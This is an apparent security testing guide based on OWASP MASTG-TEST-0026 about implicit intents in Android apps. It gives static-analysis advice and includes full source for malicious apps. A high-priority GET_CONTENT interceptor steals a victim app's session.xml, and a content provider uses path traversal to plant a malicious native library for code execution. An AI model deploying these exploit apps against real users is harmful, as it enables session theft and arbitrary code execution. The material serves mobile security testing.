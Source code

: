 # [MASTG-TEST-0026: Testing Implicit Intents](https://mas.owasp.org/MASTG/tests/android/MASVS-CODE/MASTG-TEST-0026/)
## Overview
When testing for implicit intents you need to check if they are vulnerable to injection attacks or potentially leaking sensitive data.
MASVS-CODE-4 / MSTG-PLATFORM-2 / May 08, 2023

## Implementation

An application was created that, after login, allows users to add a credit card. The `AddCardActivity` has the following intent configuration:

```java 
<activity
    android:name=".AddCardActivity"
    android:exported="false" >
    <intent-filter>
        <action android:name="com.victim.ADD_CARD_ACTION" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>


```

For the exploit, the guide cited in OWASP has followed https://blog.oversecured.com/Interception-of-Android-implicit-intents. 

In summary, another app was created with the same intent name as the victim's app but with higher priority. Consequently, when the intent is launched, the app with higher priority will intercept it.

## Static Analysis
Inspect the Android Manifest and look for any <intent> signatures defined inside blocks ↗ (which specify the set of other apps an app intends to interact with), check if it contains any system actions (e.g. `android.intent.action.GET_CONTENT`, `android.intent.action.PICK`, `android.media.action.IMAGE_CAPTURE`, etc.) and browse the source code for their occurrence.

For example, the following Intent doesn't specify any concrete component, meaning that it's an implicit intent. It sets the action android.intent.action.GET_CONTENT to ask the user for input data and then the app starts the intent by startActivityForResult and specifying an image chooser.

```
Intent intent = new Intent();
intent.setAction("android.intent.action.GET_CONTENT");
startActivityForResult(Intent.createChooser(intent, ""), REQUEST_IMAGE);
```
The app uses `startActivityForResult `instead of `startActivity`, indicating that it expects a result (in this case an image), so you should check how the return value of the intent is handled by looking for the `onActivityResult` callback. If the return value of the intent isn't properly validated, an attacker may be able to read arbitrary files or execute arbitrary code from the app's internal `/data/data/' storage. A full description of this type of attack can be found in the [following blog post](https://blog.oversecured.com/Interception-of-Android-implicit-intents).

## Case 1: Arbitrary File Read¶
In this example we're going to see how an attacker can read arbitrary files from within the app's internal storage `/data/data/<appname> `due to the improper validation of the return value of the intent.

The performAction method in the following example reads the implicit intents return value, which can be an attacker provided URI and hands it to `getFileItemFromUri`. This method copies the file to a temp folder, which is usual if this file is displayed internally. But if the app stores the URI provided file in an external temp directory e.g by calling getExternalCacheDir or `getExternalFilesDir` an attacker can read this file if he sets the permission` android.permission.READ_EXTERNAL_STORAGE`.
```
private void performAction(Action action){
  ...
  Uri data = intent.getData();
  if (!(data == null || (fileItemFromUri = getFileItemFromUri(data)) == null)) {
      ...
  }
}

private FileItem getFileItemFromUri(Context, context, Uri uri){
  String fileName = UriExtensions.getFileName(uri, context);
  File file = new File(getExternalCacheDir(), "tmp");
  file.createNewFile();
  copy(context.openInputStream(uri), new FileOutputStream(file));
  ...
}```
The following is the source of a malicious app that exploits the above vulnerable code.

AndroidManifest.xml
```
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
</application>
```
EvilContentActivity.java
```
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("file:///data/data/<victim_app>/shared_preferences/session.xml")));
    finish();
  }
}
```
If the user selects the malicious app to handle the intent, the attacker can now steal the session.xml file from the app's internal storage. In the previous example, the victim must explicitly select the attacker's malicious app in a dialog. However, developers may choose to suppress this dialog and automatically determine a recipient for the intent. This would allow the attack to occur without any additional user interaction.

The following code sample implements this automatic selection of the recipient. By specifying a priority in the malicious app's intent filter, the attacker can influence the selection sequence.
```
Intent intent = new Intent("android.intent.action.GET_CONTENT");
for(ResolveInfo info : getPackageManager().queryIntentActivities(intent, 0)) {
    intent.setClassName(info.activityInfo.packageName, info.activityInfo.name);
    startActivityForResult(intent);
    return;
}
```
## Case 2: Arbitrary Code Execution¶
An improperly handled return value of an implicit intent can lead to arbitrary code execution if the victim app allows `content://` and `file://` URLs.

An attacker can implement a ContentProvider that contains public `Cursor query(...)` to set an arbitrary file (in this case lib.so), and if the victim loads this file from the content provider by executing copy the attacker's `ParcelFileDescriptor` openFile(...) method will be executed and return a malicious fakelib.so.

AndroidManifest.xml
```
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
  <provider android:name=".EvilContentProvider" android:authorities="com.attacker.evil" android:enabled="true" android:exported="true"></provider>
</application>
```
EvilContentProvider.java

```
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
    matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});
    return matrixCursor;
}
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    return ParcelFileDescriptor.open(new File("/data/data/com.attacker/fakelib.so"), ParcelFileDescriptor.MODE_READ_ONLY);
}
```
EvilContentActivity.java

```
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("content:///data/data/com.attacker/fakelib.so")));
    finish();
  }
}
```

